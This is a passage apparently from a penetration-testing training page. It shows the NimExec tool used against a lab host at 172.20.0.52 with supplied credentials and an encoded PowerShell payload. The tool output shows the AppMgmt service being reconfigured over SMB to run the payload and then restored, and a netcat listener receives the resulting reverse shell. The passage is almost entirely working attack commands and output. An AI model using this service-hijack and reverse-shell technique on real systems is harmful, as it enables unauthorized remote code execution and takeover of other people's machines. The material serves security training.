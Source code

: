 <pre><code class="language-powershell-session">PS C:\Tools&gt; .\NimExec -u helen -d inlanefreight.local -p RedRiot88 -t 172.20.0.52 -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v

                                                                                             _..._
                                                                                          .-'_..._''.
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          .
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /
|  |   |  |                                        .'   /    `.   `.                               `
'--'   '--'                                       '----'       '----'

                                            @R0h1rr1m


[+] Connected to 172.20.0.52:445
[+] NTLM Authentication with Hash is succesfull!
[+] Connected to IPC Share of target!
[+] Opened a handle for svcctl pipe!
[+] Binded to the RPC Interface!
[+] RPC Binding is acknowledged!
[+] SCManager handle is obtained!
[+] Number of obtained services: 208
[+] Selected service is AppMgmt
[+] Service: AppMgmt is opened!
[+] Previous Service Path is: C:\Windows\system32\svchost.exe -k netsvcs -p
[+] Service config is changed!
[!] StartServiceW Return Value: 1053 (ERROR_SERVICE_REQUEST_TIMEOUT)
[+] Service start request is sent!
[+] Service config is restored!
[+] Service handle is closed!
[+] Service Manager handle is closed!
[+] SMB is closed!
[+] Tree is disconnected!
[+] Session logoff!
</code></pre>
<p>Once we execute the tool with the above parameters, we are going successfully establish a reverse shell connection:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096
